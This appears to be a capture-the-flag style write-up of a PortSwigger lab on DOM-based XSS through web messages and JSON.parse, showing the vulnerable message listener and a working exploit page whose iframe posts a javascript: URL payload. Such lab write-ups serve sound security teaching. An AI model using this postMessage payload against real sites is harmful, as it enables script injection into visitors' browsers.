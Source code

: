 # DOM XSS using web messages and `JSON.parse`

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url), you'll learn: DOM XSS using web messages and `JSON.parse`! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114173227.png)

**View source page:**
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

In this web message, it has an event listener that listening for a web message. Then, it'll **parse the message as JSON data via `JSON.parse`**. Moreover, **the event listener doesn't verify the origin of incoming messages correctly.**

Also, in the `switch` statement, it has a `case` called `load-channel`. **What that case do is to change an `<iframe>` element `src` attribute**. Hence, this is the sink (Dangerous function). 

Armed with above information, we can host a malicious HTML file that contains `<iframe>` element and use the `postMessage()` method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page:

```js
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}",'*')
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175422.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175428.png)

**Let's create a HTML payload to exploit that DOM-based XSS!**
```html
<html>
    <head>
        <title>DOM XSS using web messages and JSON.parse</title>
    </head>
    <body>
        <iframe src="https://0a94005203448cd4c073c3ae006d003c.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

Then host it on the exploit server, and deliver it to victim:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175905.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175910.png)

# What we've learned:

1. DOM XSS using web messages and `JSON.parse`